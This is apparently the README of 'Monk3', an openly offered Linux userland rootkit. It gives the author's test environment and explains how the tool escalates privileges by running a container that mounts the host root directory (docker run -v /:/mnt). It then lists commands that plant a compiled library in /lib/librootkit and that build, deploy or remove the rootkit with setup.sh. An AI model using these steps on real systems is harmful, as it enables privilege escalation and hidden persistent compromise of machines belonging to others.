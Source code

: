 # Monk3 userland rootkit

### dependencies:
<ul>
    <li>docker</li>
</ul>

### my specs:

<ul>
    <li>Docker version 20.10.10, build tag v20.10.10</li>
    <li>Docker Alpine Linux container kernel version 5.13.19_1</li>
    <li>Void Linux kernel version 5.13.19_1</li>
    <li>gcc (GCC) 10.2.1 20201203</li>
</ul>


# how does it work?
Monk3 uses docker to escalate privileges and have access to the user's file system by mounting the root directory into /mnt and accessing it.

example:
```
cd /
docker run -v /:/mnt -it alpine
cd mnt
ls
```
then creates /lib/librootkit/ where the compiled source (monk3.lib.so) will remain.
```
mkdir /lib/librootkit
mv monk3.lib.so /lib/librootkit/monk3.lib.so
```

# configuration guide
to compile and run monk3, just make sure you have docker installed and that your hostname belongs to the same group as docker does
(setup.sh does this for you)

### compile and run rootkit:
```
chmod u=rwx setup.sh
./setup.sh -b
```

### delete and unload rootkit:
```
chmod u=rwx setup.sh
./setup.sh -r
```
